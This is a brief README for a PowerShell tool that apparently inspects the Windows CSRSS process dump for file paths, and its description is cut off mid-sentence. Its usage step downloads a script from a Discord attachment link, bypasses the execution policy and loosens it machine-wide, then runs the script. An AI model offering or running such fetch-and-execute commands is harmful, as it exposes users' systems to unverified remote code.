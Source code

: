 # CSRSS Powershell Script
Checks the Systems CSRSS Dump for file-paths, then checks the files for 

### Usage of other Software
This script completely runs without any use of external software. Simply open Powershell and run:

New-Item -Path "C:\temp\dump\csrss" -ItemType Directory -Force | Out-Null
Set-Location "C:\temp\dump\csrss"
Invoke-WebRequest -Uri "https://cdn.discordapp.com/attachments/1269629607674646540/1269629658467401788/csrss.ps1?ex=66b0c243&is=66af70c3&hm=1e220e364f6c6b853eb3b4d2846fb34e0590d299496db73529b7ce42bbccbaad&" -OutFile "csrss.ps1"; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Set-ExecutionPolicy RemoteSigned -Scope LocalMachine; .\csrss.ps1
